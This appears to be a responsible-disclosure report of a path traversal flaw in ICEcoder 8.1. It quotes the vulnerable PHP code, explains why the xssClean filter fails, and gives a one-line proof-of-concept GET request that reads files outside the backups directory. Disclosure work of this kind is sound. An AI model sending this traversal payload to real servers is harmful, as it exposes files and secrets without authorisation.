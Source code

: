 A Path Traversal vulnerability in icecoder 8.1.

In file https://github.com/icecoder/ICEcoder/blob/master/lib/backup-versions-preview-loader.php

```php
...
$file = str_replace("|", "/", xssClean($_GET['file'], 'html'));		// Line 6(Source)
$loadedFile = toUTF8noBOM(getData("../data/backups/" . $file), true);	// Line 9(Tainted)
...
echo '<textarea name="loadedFile" id="loadedFile">' . htmlentities($loadedFile, ENT_COMPAT, $encoding) . '</textarea>';		// Line 16(Sink)
...
```

Source from `$_GET['file']` with the filtering from function xssClean. But this function does not filter `/` , `.` and `\`, which make path traversal can still be performed.

# Poc

`GET /lib/backup-versions-preview-loader.php?file=../index.php&csrf=f61f875ccdfce110c49d184ddecfbd2f`

The value of csrf can access from index.php

# Manual verification

![alt text](5.png)

![alt text](6.png)



The developer has been informed of the report via email